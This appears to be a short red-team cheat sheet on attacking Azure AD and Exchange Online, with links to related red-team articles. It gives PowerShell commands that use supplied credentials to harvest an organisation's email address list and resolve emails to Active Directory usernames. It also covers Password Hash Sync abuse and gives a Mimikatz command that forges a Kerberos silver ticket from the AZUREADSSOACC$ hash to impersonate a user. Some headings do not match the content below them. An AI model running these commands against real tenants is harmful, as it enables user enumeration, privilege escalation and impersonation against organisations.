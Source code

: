 # Password Spraying
**By connecting to Outlook Web Access Portal and utilizing the FindPeople method, it is able to gather the list of all email addresses**
```
Get-GlobalAddressList -ExchHostname outlook.office365.com -UserName thureinsoe@insomnia.com -Password 123456%*@aA -OutFile global-address-list.txt

```
# Exchange Service
Connecting to Exchange Service, it is also able to retrieve the Active Directory username corresponding to the given email address
```
Get-ADUsernameFromEWS -EmailList gotham-emails.txt -ExchHostname outlook.office365.com -Remote
```
# Enabling Multi-Factor Authentication Users
The following MSOnline PowerShell command allows Azure AD administrators to list Azure AD users and the state of their MFA configuration
```
Get-MsolUser -EnabledFilter EnabledOnly -MaxResults 50000 | select DisplayName,UserPrincipalName,@{N="MFA Status"; E={ if( $_.StrongAuthenticationRequirements.State -ne $null){ $_. StrongAuthenticationRequirements.State} else { "Disabled"}}} | export-csv mfaresults.csv
```
# Password Hash Synchronization (PHS)
This attack is not actually targeting Azure AD but exploiting one of its features in order to escalate privileges on the on-premise Active Directory domain it is synchronized with. Remember Password Hash Synchronization? As explained earlier in this post, a synchronisation account is created by Azure AD Connect on the on-premises Active Directory

# Seamless Single Sign-On (SSO)
Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) automatically signs users in when they are on their corporate devices connected to your corporate network. When enabled, users don't need to type in their passwords to sign in to Azure AD. This feature provides your users easy access to your cloud-based applications without needing any additional on-premises components.**When the user wants to connect to Azure AD, the Domain Controller provides him a service ticket for Azure AD. Service tickets are encrypted with the password of a computer account named AZUREADSSOACC$, automatically created when enabling this feature**

In order to do so, the following parameters are required:

* Username of the user to impersonate.
* Domain name.
* NTLM hash of the AZUREADSSOACC$ account.
* SID of the user to impersonate.
* Target service, which is HTTP/aadg.windows.net.nsatc.net.

**Having this information we can now create and use the Silver Ticket on any Windows computer connected to the internet Service**
```
kerberos::golden /user:NyaMeeEain /domain:insomnia.com /rc4:db[...]59 /sid:S-1-5-21-805388781-1469664503-1626361301-1106 /id:1234 /target:XXXXXXX.net /service:HTTP /ptt
```
* [AZURE AD INTRODUCTION FOR RED TEAMERS](https://www.synacktiv.com/en/publications/azure-ad-introduction-for-red-teamers.html)
* [Password Hash Sync Deep Dive](https://www.eshlomo.us/password-hash-sync-deep-dive/)
